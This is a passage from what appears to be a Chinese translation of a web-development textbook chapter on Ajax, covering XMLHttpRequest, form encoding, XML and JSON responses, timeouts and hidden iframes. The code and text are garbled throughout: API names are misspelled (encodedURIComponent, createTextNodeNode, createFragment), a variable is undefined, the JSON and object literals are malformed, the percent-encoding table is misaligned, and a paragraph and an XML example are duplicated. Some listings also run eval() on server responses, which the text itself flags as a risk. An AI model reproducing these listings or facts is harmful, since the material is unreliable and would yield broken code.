      fetchModels(selectedMade);
    }
  };
}

// 在页面加载后执行 init()。
window.onload = init;
```
代码列表 5.2.2 从 `XMLHttpRequest` 获取模型（继续）

使用标准方法（如 `createElement()` 和 `createTextNodeNode()`）手动创建 DOM 对象。我们将更详细地讨论响应。现在让我们继续分析 5.2。

如果我们在 `open()` 方法的异步参数中传递了 `false`，那么 `send()` 方法将阻塞直到请求完成。当使用 `XMLHttpRequest` 进行同步请求时，我们不需要指定 `onreadystatechange` 处理器，因为当 `send()` 方法返回时，你知道请求已经完成。然而，并没有太大理由进行同步请求，设置异步请求非常简单，而且异步请求可以提高应用程序的响应能力。

${10}http://www.quirksmode.org/dom/innerhtml.html.

服务器返回关联模型。示例的完整 HTML、CSS 和服务器端代码在本章最后给出。现在，我们只想关注与 `XMLHttpRequest` 交互的客户端部分。



### 5.2.2.1 XMLHttpRequest 方法

将请求发送到服务器。如果请求配置为异步（`async` 设置为 `true`），此方法立即返回；否则，它将阻塞直到接收响应。参数可以是 `Document` 对象、`Blob` 或字符串。

```javascript
void setRequestHeader(header, value)
```

将指定的请求标头设置为给定值。此方法最用途是在发送 POST 请求时将 `Content-Type` 标头设置为“application/x-www-form-urlencoded”。

### 5.2.2.2 XMLHttpRequest 属性

`onreadystatechange`
当状态改变时调用的事件处理器。

`readyState`
表示请求当前状态的整数。浏览器在处理请求时更改 `XMLHttpRequest` 对象的 `readyState`。当此值变化时，会调用 `onreadystatechange` 事件处理器，允许你对状态变化做出反应。通常，你唯一关心的状态是 4 Completed。

- 0 Uninitialized：尚未调用 `open()` 方法。
- 1 Loading：已调用 `open()` 方法但尚未调用 `send()` 方法。
- 2 Loaded：已调用 `send()` 方法，但服务器尚未响应。
- 3 Interactive：已接收到服务器的部分响应。
- 4 Completed：已接收完整响应并关闭连接。

`responseText`
以文本字符串形式存在的服务器响应体。服务器可以使用纯文本、HTML、XML 或任何其他格式对请求响应。只要请求成功，无论返回的是什么格式，此值都将设置为字符串形式的响应数据。

`responseXML`
如果响应是一个 XML 文档（且响应的 `Content-Type` 头部设置为“text/xml”），则 XML 将被解析为 DOM 对象并赋值给此属性。这可以为你节省时间，因为你不需要自己解析 XML。

`status`
一个包含响应 HTTP 状态码的整数值。一些常见的状态码包括 200 OK（表示请求成功）、302 Found（表示资源已移动到另一个 URL，称为重定向）、304 Not Modified（通常意味着响应是从浏览器缓存提取的而不是从服务器下载的）、404 Not Found（表示未找到资源）以及 500 Internal Server Error（服务器内部错误）。

`statusText`
一个包含状态码文本描述的字符串值（200 对应“OK”，302 对应“Found”等）。

使用 `XMLHttpRequest` 对象是一个多步骤的过程。你首先初始化对象以指定你想要请求的 URL 以及你想要如何使用该对象；然后调用 `send()` 方法实际发送请求；最后，处理响应。`HttpRequest` 的初始化涉及以下步骤，这些可以按任何顺序进行：

- 调用 `open()` 方法来指定 URL 以及你想要进行同步请求还是异步请求。
- 调用 `setRequestHeader()` 方法来指定随请求发送的任何 HTTP 头部。
- 将 `onreadystatechange` 属性设置为一个函数，该函数会在请求状态改变时被调用（并在 `readyState` 为 4 Completed 时处理响应）。

### 5.2.2.3 发送 POST 请求

如果没有数据要发送，你必须向 `send()` 方法传递 `null`。然而，如果你想在请求体向服务器发送某些数据，可以将其传递给 `send()` 方法。例如，假设你想发送一个带有汽车搜索表单字段的 POST 请求。你必须做的第一件事是将表单的键值对连接成一个 URL 编码字符串，并将其传递给 `send()` 方法。URL 编码（也称为百分比编码¹¹）是将 URI 中不允许的字符替换为由百分号（`%`）后跟一对十六进制数字构成的代码的过程。例如，美元符号（`$`）被编码为 `%24`。以下是预留字符及其编码值的列表。

| ! * ' ( ) ; : @ & = + $ / ? % # [ ] |
| %21 %2A %27 %28 %29 %3B %3A %3B %3C %40 %26 %3D %2B %24 %2C %2F %3F %25 %5B %5D |

除了上述预留字符列表外，空格被编码为 `%20`。当数据发送到服务器时，必须按照 `application/x-www-form-urlencoded` MIME 类型定义的格式编码。这种格式与 URL 编码相同，但空格被编码为 `+` 而不是 `%20`。为了处理这种编码，我们在 `RequestHelper` 中添加了一个方法，该方法接收一个表单对象并返回其字段键值对的编码后的字符串（列表 5.2.3）。

现在我们可以使用 `RequestHelper.encodeForm()` 通过 `XMLHttpRequest` 将整个汽车搜索表单发送到服务器。我们只需要设置：

> ¹¹http://en.wikipedia.org/wiki/Percent-encoding.

```javascript
var RequestHelper = (function() {
  ...
  return {
    /**
     * 从给定的表单获取字段键值对，
     * 连接成单个字符串，键和值用 '=' 分隔，
     * 对之间用 '&' 分隔，并根据
     * application/x-www-form-urlencoded
     * mime 类型进行编码。
     */
    encodeForm: function(form) {
      var encodedPairs = [];
      // 遍历字段并对键值对进行编码。
      for (var i = 0; i < form.elements.length; i++) {
        var field = form.elements[i];
        switch (field.type) {
          case "select-one":
          case "select-multiple":
            // 获取所有选中的选项。
            for (var j = 0; j < field.options.length; j++) {
              if (field.options[j].selected) {
                encodedPairs.push(
                  encodePair(field.options[j].name,
                  field.options[j].value));
              }
            }
            break;
          case "checkbox":
          case "radio":
            // 仅在选中时使用。
            if (!form.elements[i].checked) {
              break;
            }
          case "text":
          case "textarea":
          case "hidden":
          case "password":
            // 列表 5.2.3
            // RequestHelper.encode Form() 方法
            // （继续）
            case "submit":
            case "reset":
            case "button":
              encodedPairs.push(
                encodePair(field.name, field.value));
              break;
        }
      }
      // 将键/值对连接起来并用 '&' 分隔
      return encodedPairs.join("&");
    },
    /**
     * 返回给定的键/值对，连接成
     * 一个字符串，并用 '=' 分隔，并根据
     * application/x-www-form-urlencoded
     * mime 类型进行编码。
     */
    encodePair: function(name, value) {
      // 使用内置函数 encodedURIComponent。
      // 将空格 %20 替换为 +
      return encodedURIComponent(name).replace(/%20/g, "+")
        + "=" + encodedURIComponent(value).replace(/%20/g, "+");
    }
  };
})();
```

列表 5.2.3 `RequestHelper.encodeForm()` 方法（继续）

POST 请求，设置正确的 MIME 类型头部，编码数据，并将其传递给 `XMLHttpRequest` 的 `send` 方法。

```javascript
// 设置 POST 请求。
request.open("POST","http://localhost/ajax-ch5/search.php",true);

// 设置正确的 Content-Type。
request.setHeader('Content-Type',
  'application/x-www-form-urlencoded');

// 编码表单。
var searchForm = document.getElementById("carSearchForm");
var encodedForm = RequestHelper.encodeForm(searchForm);

// 将表单发送到服务器。
request.send(encodedForm);
```


### 5.2.3 处理服务器发送的数据

服务器发送的响应数据类型由`Content-Type`头部识别，它指定了 MIME 类型¹。在理论上，你可以通过`XMLHttpRequest`响应浏览器支持的任何格式，但当`Content-Type`头部设置为`text/xml`、`application/xml`或任何以`+xml`结尾的 MIME 类型（如`application/xhtml+xml`）时，浏览器会自动解析 XML。如果 XML 数据不是格式良好的或者`Content-Type`头部设置不正确，则`XMLHttpRequest responseXML`属性将不包含 DOM 对象。

如果响应不包含 XML，浏览器会将响应体赋值给`response`属性，你需要根据需要解析这些数据。Ajax 开发中最常用的响应格式有 XML（毫无意外！）、HTML（`text/html`）、文本（`text/plain`）、JavaScript（`text/javascript`）以及对象表示法（`application/json`）。我们将在后面的章节中介绍这些格式。

### 5.2.3 响应

尽管`innerHTML`有一些缺点，但它的使用非常有吸引力。将 HTML 作为响应格式对于开发者来说是自然的，而且易于理解。如果你想将 HTML 作为响应格式但不想使用`innerHTML`来更新 DOM 树，你的工作将变得困难。你必须自己解析从`responseText`获取的字符串，并使用 DOM 方法添加它们。例如，我们为下拉菜单设置了事件处理程序，以创建一个`XMLHttpRequest`对象并使用它发送 GET 请求来下载所选品牌的汽车。现在你有了来自响应的 HTML 字符串，需要它们来更新汽车列表。你需要将字符串转换为 DOM 节点。你必须做的第一件事是编写解析字符串的代码。在列表 5.4 中，我们在`RequestHelper`中添加了一个名为`parseHTML()`的方法，它可以将给定的 HTML 字符串解析为 DOM 节点，将其添加到`DocumentFragment`并返回该`DocumentFragment`。当`DocumentFragment`添加到 Node 时，Fragment 的子会被添加到 Node 中而不是它本身。Fragment 作为一个方便的容器。这段代码缺少在生产网站上使用所需的某些错误处理。代码本身已经相当复杂了，我们希望在这个示例中保持简单。此外，此示例使用正则表达式来解析字符串。这个字符串不是关于正则表达式的书，因此不会进行解释，但注释描述了它们的作用。如果你想了解更多正则表达式，可以在网上找到一些很好的资源¹⁵。

¹²http://www.iana.org/media-types/.
³http://www.w3.org/DOM-Level-3/Core/core.html#ID-B63ED1A3.
⁴http://www.whatwg.org/specs/web-apps/current/#innerHTML.

现在你已经有了解析文本的方法，你需要添加代码来获取结果应用到汽车模型选择标签上。为了完成这一点，你必须使用第 199 页的代码来替换列表 5.2.2 中`onreadystatechange`事件处理程序中将响应字符串应用到`innerHTML`的代码。

```javascript
var RequestHelper = (function() {

...

return {

  ..

```

> /**
> * 解析给定的 HTML 字符串并返回一个包含
> * 创建节点的 DocumentFragment。
> * 如果给定的字符串不包含 HTML 标签，
> * 则返回一个 TextNode。
> */

```javascript
parseHTML: function(htmlString) {

  // 定义一个正则表达式来匹配 HTML 标签。

  var tagRegEx = /(\w+)\s*=\s*(".*?"|'.*?'|[^"\>\s]+)*(\s*)([^<])?:<\/\s*)?>/m;

  // 找到第一个 HTML 标签。

  var tagMatch = htmlString.match(tagRegEx);

```

```javascript
// 如果不存在 HTML 标签，

  // 则将给定的字符串作为 TextNode 返回。

  if (tagMatch == null) {

    return document.createTextNode(htmlString);

  }

```

```javascript
// 创建一个文档来存放解析后的 DOM 元素。

  var docFragment = document.createFragment();

  var tagName = tagMatch[1];

  // 为 HTML 标签创建一个 DOM 对象。

  var tag = document.createElement(tagName);

```

```javascript
// 如果标签具有属性，则将它们添加到对象中。

  if (tagMatch[2] != undefined) {

    // 定义一个正则表达式来

    // 拆分属性字符串。

    var attrRegEx = /(\w+)\s*=\s*(".*?"|'.*?'|[^"\>\s]+)/gm;

    // 定义一个正则表达式将

    // 属性拆分为名称和值。

    var pairAttrMatch = tagMatch[2].match(attrRegEx);

```

```javascript
var attrMatch = tagMatch[2].match(attrRegEx);

```

列表 5.2.4
`RequestHelper.parseHTML()` 方法

（继续）

# 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
// 循环属性

// 将它们添加到 DOM 对象中。

for (var i = 0; i < attrMatch.length; i++) {

  var pairMatch = attrMatch[i].match(pairRegex);

  var attrName = pairMatch[1];

```

```javascript
for (var j = 2; j < pairMatch.length; j++) {

  if (pairMatch[j] != undefined) {

    tag.setAttribute(attrName, pairMatch[j]);

    break;

  }

}

```

```javascript
// 如果标签未关闭，则解析内容。

if (tagMatch.length == 4) {

  var tagContent = tagMatch[3];

```

```javascript
// 如果标签有内容，

// 则解析它并将其添加到标签中。

if (tagContent != undefined) {

  tag.appendChild(this.parseHTML(tagContent));

}

```

```javascript
docFragment.appendChild(tag);

var remainingStr = htmlString.substring(tagMatch.index + tagMatch[0].length);

```

```javascript
// 解析任何剩余字符串。

if (remainingStr.length > 0) {

  docFragment.appendChild(this.parseHTML(remainingStr));

}

```

```javascript
return docFragment;

}

})();

```

列表 5.2.4
`RequestHelper.parseHTML()` 方法（续）

### 5.2.3 XML 响应

Ajax 中的 X 代表 XML，而 "XML" 就在让 Ajax 流行的客户端对象名称中。因此，理而然，大多数人认为 Ajax 开发必须涉及使用 XML。然而，正如我们已经演示的那样，事实并非如此。HTML 是一种多功能且支持良好的响应格式选择。实际上，几乎所有的服务器端语言都支持处理 XML，并且浏览器会自动将 XML 响应解析为 DOM 对象，并通过`XMLHttpRequest`的`responseXML`属性提供数据。使用 XML，你可以精确地控制响应的样观。在客户端，你可以使用 XML 响应的各个部分来更新 HTML 的部分内容。例如，使用我们的汽车搜索示例，当用户选择某辆汽车时，服务器还可以验证年份字段，并同时返回验证消息和汽车型号列表。当我们使用 HTML 作为响应并设置`innerHTML`时，我们并没有单独更新独立 DOM 元素的选项。从技术上讲，我们可以自己解析 HTML 响应并使用结果更新多个 DOM 对象，但我们已经看到在 JavaScript 中编写解析逻辑是多么困难。

使用 XML 的主要缺点是，使用 DOM API 更新加载文档部分的客户端代码可能会变得非常冗长。在这个示例中你会看到一点，我们使用了刚才描述的场景。当用户选择汽车品牌时，服务器将同时返回针对年份字段的验证消息和相关汽车型号列表。为了实现这一点，我们需要修改列表 5.2.2 中的代码，向服务器发送选定的汽车品牌和输入的年份，然后使用响应将验证消息放在年份字段旁边，并用模型列表更新汽车型号选择。假设用户在年份字段中输入了某些看起来不像年份的内容——他在年份字段中输入了 "200"（拼写错误），然后从汽车品牌下拉列表中选择了 "Jeep"。服务器返回以下 HTTP 消息，其中包含了 XML 和必要的`Content-Type`头部。只有当`Content-Type` HTTP 头部设置为 "text/xml"、"application/xml" 或相应类型时，浏览器才会解析 XML 响应并将其赋值给`XMLHttpRequest`的`responseXML`属性。

```xml
Content-Type: text/xml

<response>

  <error field="year">Must be 4-digit year</error>

  <name="Jeep">

    <model>Commander</model>

    <model>Compass</model>

    <model>Grand Cherokee</model>

    <model>Liberty</model>

    <model>Wrangler</model>

  </name>

</response>
```

为了实现这一点，我们需要修改列表 5.2.2 中的代码，向服务器发送选定的汽车品牌和输入的年份，然后使用响应将验证消息放在年份字段旁边，并用模型列表更新汽车型号选择。假设用户在年份字段中输入了某些看起来不像年份的内容——他在年份字段中输入了 "200"（拼写错误），然后从汽车品牌下拉列表中选择了 "Jeep"。服务器返回以下 HTTP 消息，其中包含了 XML 和必要的`Content-Type`头部。只有当`Content-Type` HTTP 头部设置为 "text/xml"、"application/xml" 或相应类型时，浏览器才会解析 XML 响应并将其赋值给`XMLHttpRequest`的`responseXML`属性。

```xml
Content-Type: text/xml

<response>

  <error field="year">Must be 4-digit year</error>

  <name="Jeep">

    <model>Commander</model>

    <model>Compass</model>

    <model>Grand Cherokee</model>

    <model>Liberty</model>

    <model>Wrangler</model>

  </name>

</response>
```

```javascript
function removeErrors() {

  var spans = document.getElementsByTagName("span");

  for (var i = 0; i < spans.length; i++) {

    if (spans[i].getAttribute("class") == "error") {

      document.getElementById("carSearchForm")

        .removeChild(spans[i]);

    }

  }

}
```

```javascript
function displayModels(selectedMake, response) {

  // 获取错误并应用到页面。

  var errors = response.getElementsByTagName("error");

  if (errors.length > 0) {

    var error = errors.item(0);

    var errorTextNode = document.importNode(error.firstChild, true);

    var field = document.getElementById(error.getAttribute("field"));

    // 创建 span 标签存放消息。

    var spanNode = document.createElement("span");

    spanNode.setAttribute("class", "error");

    spanNode.appendChild(errorTextNode);

    var form = document.getElementById("carSearchForm");

    // 插入 span 标签。

    spanNode = form.insertBefore(spanNode, field.nextSibling);

  }

}
```

列表 5.2.5
使用 XML 响应格式

# 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
// 将所有模型添加到模型选择器中。

for (var i = 0; i < models.length; i++) {

    modelSelect.options[models[i].firstChild.nodeValue] = 

    new Option(models[i].firstChild.nodeValue, models[i].firstChild.nodeValue, false, false);

}

modelSelect.disabled = false;

}

function fetchModels(selectedMake) {

    var request = XMLHttpRequest.createXHR();

    request.onreadystatechange = function() {

        if (request.readyState == 4) {

            if (request.status == 200 || request.status == 304) {

                // 响应 XML 被解析为 Document 对象。

                var response = request.responseXML;

                removeErrors();

                // 使用数据更新显示。

                displayModels(selectedMake, response);

            } else {

                // 发生了某些错误，因此通知用户。服务器响应："

                alert("Failed to get car models. " + request.status + " " + request.statusText);

                document.getElementById("make").selectedIndex = 0;

            }

        }

    }

}
```

```javascript
var encodedYear = encodeURIComponent(document.getElementById("year").value);
encodedMake = encodeURIComponent(selectedMake);

//  XMLHttpRequest 我们想要 GET 的 URL。
request.open("GET", "http://localhost/ajax-ch5/getCarModelsXML.php?make=" + encodedMake + "&year=" + encodedYear, true);

// 发送请求。记住，如果不发送任何数据，请传递 null。
request.send(null);
```

列表 5.2.5
使用 XML 响应格式（续）

## 5.2 XMLHttpRequest 203

- 侧边代码留在了本章的末尾，以便我们可以关注如何使用`XMLHttpRequest`。

### 5.2.2.3 纯文本响应


当你想要执行一些简单的操作时，例如服务器验证字段并在验证失败时响应错误消息，最简单的响应格式就是纯文本。假设我们想在用户离开字段后立即验证我们汽车搜索表单的年份，而不是等待选择了汽车。为了实现这一点，我们可以为该字段添加一个`onChange`事件处理器，将输入的年份发送到服务器进行验证。服务器只需要返回一个通过消息或一个失败消息。通过消息可以简单如`"OK"`。

失败消息可以简单如“Must be a 4-digit year”（必须是四位年份）。

就是这样。没有 HTML 或 XML。我们可以在年份字段旁边添加一个空的`<span>`标签，当失败消息返回时，将其填充其中。`<span>`标签只显示其内容，所以当它是空时，什么都不显示。用于添加`span`标签的 HTML 修改如下所示。

```html
<input id="year" name="year" type="text" size="5" />
<span id="yearMsg" class="error"></span><br />
```

`error` CSS 类用于对消息应用任何样式，例如颜色的文本。`id`属性让我们能够轻松查找它。下面是 JavaScript 代码，非常简单。我们定义了一个`validateField()`函数，向服务器提交请求以验证年份字段。如果响应消息不是`"OK"`，它会将`responseText`的值放入`<span>`标签中。使用早前的`init()`函数，我们将`onChange`事件处理器挂载到年份字段，并调用`validateField(field)`函数。

```javascript
/**
 * 让服务器验证年份字段，并在有验证错误消息响应时
 * 更新显示。
 */
function validateField(field) {
    // 创建 XMLHttpRequest 对象。
    var request = XMLHttpRequest.createXHR();

    // 定义 readyState 事件处理器处理响应。
    request.onreadystatechange = function() {
        if (request.readyState == 4) {
            if (request.status == 200 || request.status == 304) {
                // 响应是 JavaScript 字符串。
                var message = request.responseText;
                if (message != "OK") {
                    document.getElementById("yearMsg").innerHTML = message;
                } else {
                    document.getElementById("yearMsg").innerHTML = "";
                }
            } else {
                // 发生了某些错误，通知用户。
                alert("Failed to get car models. " + request.status + " " + request.statusText);
            }
        }
    };

    // XMLHttpRequest 我们想要 GET 的 URL。
    request.open("GET", "http://localhost/ajax-ch5/getCarModelsXML.php?make=" + encodeURIComponent(selectedMake) + "&year=" + encodeURIComponent(document.getElementById("year").value), true);

    // 发送请求。记住，如果不发送任何数据，请传递 null。
    request.send(null);
}
```

## 5.2 XMLHttpRequest

```javascript
function init() {
  // 设置年份事件处理器。
  var yearField = document.getElementById("year");
  yearField.onchange = function() {
    if (yearField.value.length > 0) {
      validateField(yearField);
    }
  };
}

// 页面加载后执行 init。
window.onload = init;
```

## 5.2.4 JavaScript 和 JSON

另一种流行的响应格式是 JavaScript。通过`XMLHttpRequest`的`responseText`属性提供的字符串是 JavaScript。JavaScript 提供了内置的`eval()`函数，可以解析它并返回结果。JavaScript 支持包含语句、表达式、函数声明和对象声明。对于一个简单的例子，我们可以修改上一个节中的代码，使其包含`<span>`标签的响应。如果字段验证成功，服务器可以只返回空字符串。如果字段验证失败，服务器可以返回如下字符串：

```javascript
document.getElementById('yearMsg').innerHTML = 'Must be a 4-digit year';
```

这种技术是强大的。你可以返回一个整个页面的 JavaScript 程序！但这样做是一种糟糕的开发实践。事实上，你应该避免通过将语句放入字符串并传递给`eval()`来执行。这样做会带来一些安全风险，因为`eval()`函数会执行传递给它的任何内容，包括黑客的恶意代码。

尽管如此，在 Ajax 开发中有一种可接受的`eval()`使用。与其将代码逻辑作为字符串传递给客户端，不如使用 JavaScript 语法传递数据。这种技术由 Douglas Crockford⁶ 使流行，他将该想法形式化为名为 JavaScript 对象表示（JSON）的规范⁷。JSON 被定义为一种轻级数据交换格式，基于 JavaScript 语言的子集，即 JavaScript 对象和数组字面量。

JavaScript 使用简单的字面量语法来定义对象和数组。JavaScript 字面量在上一章中描述过。例如，与其在 XML 中定义数据，你可以在 JSON 中定义它。例如，我们可以将 5.2.3.2 中提供的 XML 响应重写为 JSON 格式：

```json
"error": {
  "field": "year",
  "message": "Must be a 4-digit year"
},
"make": {
  "name": "Jeep",
  "models": ["Commander", "Compass",
    "Grand Cherokee", "Liberty",
    "Wrangler", "Wrangler Unlimited"]
}
```

你可以从这个示例看到 JSON 比 XML 简洁得多，这解释了为什么它被誉为 XML 的“无脂肪替代方案”。JSON 对象被声明为大括号`{}`内的一组键值对。JSON 对象中的每个键都是字符串，后面跟着一个冒号（`:`），键值对用逗号（`,`）分隔。值可以是字符串、数字、对象、数组、`true`、`false`或`null`。

在前面的示例中我们定义了三个对象，一个封装响应的外层对象，以及两个嵌套对象，一个用于错误消息，另一个用于汽车品牌。

¹⁶ http://www.crockford.com/

⁷ http://www.json.org/

JSON 中的 Array 是封装在方括号`[]`中的有序值集合。

数组中的每个值用逗号`,`隔开。在前面的示例中，模型列表被定义为一个数组。我们可以使用`eval()`方法如下将此 JSON 字符串转换为对象。假设我们已经将前面的 JSON 字符串赋值给变量`jsonRespStr`。

```javascript
var jsonResp = eval("" + jsonRespStr + "");
```

你必须用 JSON 字符串包裹在括号`()`中，否则 JavaScript 解释器将不知道你的大括号表示一个对象。大括号还用于 JavaScript 中的其他构造结构，例如函数定义和`if/else`语句；因此，解释器需要知道这对大括号是什么用途，以确定它们代表什么。

通常，对象字面量前面有一个等号（当赋值给变量时）或`return`语句，或者它们被定义在数组字面量内部，或者在被传递给函数时被括号包围。

现在你已经了解了 JSON 背后的简单概念，我们可以创建一个示例来查看 JSON 的用法。我们可以很容易地重写列表 5.2.5 中的 XML 示例来使用 JSON，如列表 5.2.6 所示。现在，响应不再被解析为 DOM Node 对象，而是被解析为一个简单的 JavaScript 对象，我们通过引用对象的字段来获取数据。

一旦 JSON 转换为对象，我们就可以像使用 JavaScript 中其他对象一样使用它。除了 JSON 比 XML 更简洁且在互联网上传输时占用的带宽更少之外，在 JavaScript 中使用 DOM API 处理它也不那么别扭（更自然）。正如你看到的，引用 JSON 对象的代码清晰、简洁且易于理解。

然而，JSON 与 XML 相比的缺点是语法可能更难阅读。XML 语法冗长是因为它的设计是为了便于阅读并清晰地识别数据。使用 JSON 时很容易漏掉括号或逗号并导致错误。不过，已经编写了 JSON 编码器可以自动将代码中的数据转换为 JSON 字符串。

正如我们之前提到的，将字符串传递给`eval()`具有某些安全影响。JSON 规范仅处理数据，但没有任何东西能阻止你在 JSON 字符串中定义一个函数——即使它不是 JSON 规范的一部分，它也能工作。为了堵住这个安全漏洞，Douglas Crockford（以及其他人）编写了仅识别以下内容的 JSON 解析器：

```javascript
function removeErrors() {
  ...
}
function displayModels(selectedMake, response) {
  // 如果发生错误，将其应用到页面。
  if (response.error) {
    var field = document.getElementById(response.error.field);
    var errorTextNode =
      document.createTextNodeNode(response.error.message);
  }

  // 创建 span 标签来存放消息。
  var spanNode = document.createElement("span");
  spanNode.setAttribute("class", "error");
  spanNode.appendChild(errorTextNode);
  var form = document.getElementById("carSearchForm");
  // 插入 span 标签。
  spanNode = form.insertBefore(spanNode, field.nextSibling);
}

// 如果返回的品牌不是所选的，则报错。
if (!response.make || response.make.name != selectedMake) {
    throw new Error("Returned make doesn't match selected make.");
}

var modelSelect = document.getElementById("model");
// 移除“Select Make...”之外的所有选项。
modelSelect.options.length = 1;
// 将所有模型添加到模型选择器中。
for (var i = 0; i < response.make.models.length; i++) {
    modelSelect.options[i + 1] =
      new Option(response.make.models[i], response.make.models[i], false, false);
}
modelSelect.disabled = false;
```

### 5.2.6 使用 JSON 格式

```javascript
function fetchModels(selectedMake) {
  var request = RequestHelper.createXHR();
  request.onreadystatechange = function() {
    if (request.readyState == 4) {
      if (request.status == 200 || request.status == 304) {
        // Response 是 JSON 字符串。
        var jsonResponseString = request.responseText;
        removeErrors();

        // 将 JSON 字符串转换为对象。
        var response = eval("(" + jsonResponseString + ")");

        // 使用数据更新显示。
        displayModels(selectedMake, response);
      } else {
        // 发生了错误，通知用户。
        alert("Failed to get models. Server response: "
          + request.status + " " + request.statusText);
        document.getElementById("make").selectedIndex = 0;
      }
    }
  };
  var encodedYear = encodeURIComponent(document.getElementById("year").value);
  var encodedMake = encodeURIComponent(selectedMake);

  // 告诉 XMLHttpRequest 我们要获取的 URL。
  request.open("GET",
    "http://localhost/ajax/getModels.php?make="
    + encodedMake + "&year=" + encodedYear, true);
  // 发送请求。如果不发送数据，请传递 null。
  request.send(null);
}
```

JSON 语法拒绝任何其他内容，如函数和赋值。使用 JSON 解析器，我们可以用以下内容替换`eval()`：

```javascript
// 如果 JSON 字符串无效，抛出 SyntaxError。
var response = JSON.parse(jsonResponseString);
```

#### 列表 5.2.6 使用 JSON 格式（继续）

键值对集合和有序值列表等构造在所有编程语言中都存在。因此，JSON 不仅可以从服务器向客户端发送数据，还可以从客户端向服务器发送。你只需要服务器上有一个处理器将你的数据转换为你选择的编程语言。

幸运的是，许多语言的处理器已经存在，可以将你的数据转换为 JSON。Crockford 在他的网站上有一个全面的列表，解析器也有一个方法可以将 JavaScript 对象转换为 JSON 字符串，你可以将其发送到服务器。

例如，我们可以创建一个包含选中汽车和输入值的 JavaScript 对象，然后使用 JSON 将其转换为 JSON 字符串：

```javascript
var makeSelect = document.getElementById("make");

var data = {
  document.getElementById("year").value,

  make: makeSelect.options[makeSelect.selectedIndex].value
};

var jsonData = JSON.stringify(data);
```


### 5.2.4 请求超时

`XMLHttpRequest` 缺少超时机制。如果你发送同步请求而 Web 服务器未响应，浏览器将锁定在`send()`方法中。如果你发送异步请求将不会遇到这个问题，因为`send()`方法不会阻塞，允许用户继续使用你的应用程序和浏览器。

然而，通常会禁用依赖异步请求完成的应用程序组件或功能。例如，你可以在处理响应之前禁用表单提交按钮，防止用户多次提交同一个表单。如果你使用这种技术，表单按钮将一直禁用直到请求完成，而这可能永远发生。此外，如果某些操作无效，通知用户是一个良好的做法，例如用户提交了表单但从未收到响应。

幸运的是，这个问题有一个简单的解决方案。`XMLHttpRequest`提供了`abort()`方法来取消请求，因此我们只需要等待一段时间，如果请求没有响应，则调用`abort()`。我们通过定义一个调用`XMLHttpRequest`对象的`abort()`方法的函数，并将函数传递给`window.setTimeout()`，指定执行函数前的等待时间。如果请求在时间到达之前完成，你可以调用`window.clearTimeout()`来取消超时。列表 5.2.7 是基于列表 5.2.6（上一节的 JSON 示例）的一个示例。

`setTimeout`函数创建一个计时器，在调用指定的函数之前等待指定的毫秒数。你可以传递函数引用或函数定义，正如我们在这里所做的。为了处理请求超时，我们向`setTimeout()`传递一个函数，该函数只需调用`XMLHttpRequest`对象的`abort()`并向用户显示提示消息。`setTimeout()`返回一个标识计时器的整数，稍后可用于取消它。

在`onreadystatechange`事件处理器中，在我们知道请求完成后，我们调用`clearTimeout()`函数来取消计时器。`clearTimeout()`函数取消由给定整数标识的计时器。

## 5.3 隐藏 IFrame

在浏览器广泛支持或使用`XMLHttpRequest`对象很久以前，开发者就已经使用隐藏帧向服务器发送请求，而无需重新加载正在查看的页面。`<frame>`和`<iframe>`标签在 1998 年 4 月的 HTML 4.0 版本成为 HTML 规范的正式部分。

帧本质上是嵌入浏览器主窗口的窗口。帧与主窗口是独立的，因为它们可以加载完整的 HTML 页面而不影响浏览器其他部分加载的内容。你可以使用 CSS 隐藏帧，并使用 JavaScript 在用户不知情的情况下动态加载内容到隐藏帧中。

`<frame>`标签必须在`<frames>`内部声明，后者替换了`<html>`标签。`<frames>`本身不显示任何内容；其嵌套的帧才显示。相比之下，`<iframe>`可以放置在`<body>`标签之间的任何位置，因此它被嵌入到 HTML 页面的内容中。

`XMLHttpRequest`请求的一个局限性是你无法使用它来上传文件。Web 开发者通常使用标签来处理文件上传。

# 第 5 章 Web 远程技术——Ajax 中的 A

```javascript
function removeErrors() {
  ...
}

function displayModels(selectedMake, response) {
  ...
}

function fetchModels(selectedMake) {
  // 创建一个 XMLHttpRequest 对象。
  var request = RequestHelper.createXHR();

  // 设置一个定时器，在 15 秒后取消请求。
  var abortTimer = setTimeout(function() {
    request.abort();

    alert("获取汽车型号失败。请重试。");
  }, 15000);

  // 定义 readyState 事件回调以处理响应。
  request.onreadystatechange = function() {
    // 请求已完成，
    // 因此取消取消请求定时器。
    clearTimeout(abortTimer);

    if (request.status == 200 || request.status == 304) {
      // 响应是一个 JSON 字符串。
      var jsonResponseString = request.responseText;

      removeErrors();

      // 将 JSON 字符串转换为对象。
      var response = eval("(" + jsonResponseString + ")");

      // 用数据更新显示。
      displayModels(selectedMake, response);
    } else {
      // 发生某些错误，因此通知用户。
      alert("获取汽车型号失败。服务器响应：" + request.status + " " + request.statusText);
      document.getElementById("make").selectedIndex = 0;
    }
  };
}
```

## 列表 5.2.7 使用`setTimeout()`和`abort()`实现请求超时（续）

### 5.3 隐藏框架（HiddenFrame）

```javascript
var encodedYear = encodeURIComponent(document.getElementById("year").value);

var encodedMake = encodeURIComponent(selectedMake);

// 告诉 XMLHttpRequest 我们想要哪个 URL
request.open(
  "GET",
  "http://localhost/ajax5/getCarModels.php?make="
    + encodedMake + "&year=" + encodedYear,
  true
);

// 发送请求。如果不发送数据，则传递 null。
request.send(null);
```

## 列表 5.2.7 使用`setTimeout()`和`abort()`实现请求超时（续）

`<input type="file"/>`浏览器为该标签渲染一个输入字段和一个按钮，当选择它时，会显示操作系统的文件选择对话框供用户选择要上传的文件。用户选择好文件后，你只需要提交表单，浏览器就会将数据发送到 Web 服务器。

遗憾的是，出于安全考虑，浏览器不允许你通过 JavaScript 访问文件系统，而`XMLHttpRequest`也不具备执行此操作的功能。唯一的替代方案是使用隐藏的 iframe。

在本节中，我们将展示一个使用用户正在查看的隐藏页面的示例。假设我们要为 Web 应用程序创建一个表单，允许用户注册她想要出售的汽车。此注册表单允许用户输入汽车信息并上传汽车照片，应用程序将使用该照片创建一个供他人浏览的汽车列表。

